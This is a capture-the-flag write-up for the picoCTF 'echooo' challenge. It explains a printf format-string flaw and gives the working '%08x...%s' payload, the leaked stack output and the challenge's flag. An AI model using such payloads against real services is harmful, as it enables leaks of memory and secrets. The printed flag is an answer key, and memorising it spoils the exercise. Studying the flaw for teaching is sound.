 # echooo

**Points:** 300

**Description**
> This program prints any input you give it. Can you [leak](echo) the flag? Connect with `nc 2018shell1.picoctf.com 46960`. [Source](echo.c).

**Hints**
> If only the program used puts...

## Solution

Opening the [C file](echo.c) shows that the program uses printf to print back the input. We see that the flag is also stored in the program, meaning that we can exploit printf to return the flag.

We can use `%08x` to fetch parameters from the stack. We want our flag to be returned as a string, so append `%s` to the end.

By giving `%08x.%08x.%08x.%08x.%08x.%08x.%08x.%s` to the program, we output `00000040.f77595a0.08048647.f7790a74.00000001.f7768490.ffbae194.picoCTF{foRm4t_stRinGs_aRe_DanGer0us_a7bc4a2d}`.

The flag is `picoCTF{foRm4t_stRinGs_aRe_DanGer0us_a7bc4a2d}`
